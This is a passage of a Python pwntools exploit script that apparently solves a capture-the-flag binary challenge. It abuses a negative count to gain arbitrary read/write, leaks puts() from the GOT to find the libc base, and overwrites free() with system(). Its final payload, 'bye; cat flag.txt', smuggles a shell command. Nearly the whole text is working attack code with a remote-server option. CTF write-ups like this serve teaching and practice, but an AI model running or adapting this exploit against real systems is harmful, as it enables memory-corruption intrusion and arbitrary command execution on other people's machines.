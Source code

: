 ```python
    assert(addr % 8 == 0)
    set_cmd(proc, addr / 8, value)

def get_addr(proc, addr):
    log.info("Getting value of address {}".format(hex(addr)))
    assert(addr % 8 == 0)
    return int(get_cmd(proc, addr / 8))

def set_cmd(proc, index, value):
    log.info("Setting index {} to value {}".format(index, value))
    read_menu(proc)
    proc.sendline("set {} {}".format(index, value))

def get_cmd(proc, index):
    read_menu(proc)
    proc.sendline("get {}".format(index))
    out = proc.readline(keepends = False)
    log.info("Index {} has value {} ({})".format(index, out, hex(int(out))))
    return out

def bye_cmd(proc):
    read_menu(proc)
    proc.sendline("bye")

parser = argparse.ArgumentParser()
parser.add_argument("-r", "--remote", help="Execute on remote server", action="store_true")
args = parser.parse_args()

e = ELF(LOCAL_PATH)
libc = ELF(get_libc_path(args.remote))
context.binary = e.path

p = get_process(args.remote)

p.sendlineafter("How many values to you want to sum up?\n> ", "-1")
log.info("puts() - GOT: {}, PLT: {}".format(hex(e.got["puts"]), hex(e.plt["puts"])))
puts_addr = get_addr(p, e.got["puts"])
log.info("Runtime address of puts(): {}".format(hex(puts_addr)))
libc_base = puts_addr - libc.symbols['puts']
log.info("LibC Base: {}".format(hex(libc_base)))

libc.address = libc_base

log.info("free() GOT: {}".format(hex(e.got["free"])))
log.info("system() runtime address: {}".format(hex(libc.symbols["system"])))
set_addr(p, e.got["free"], libc.symbols["system"])
read_menu(p)
payload = "bye; cat flag.txt"
log.info("Sending payload: {}".format(payload))
p.sendline(payload)
print p.recvall()
```
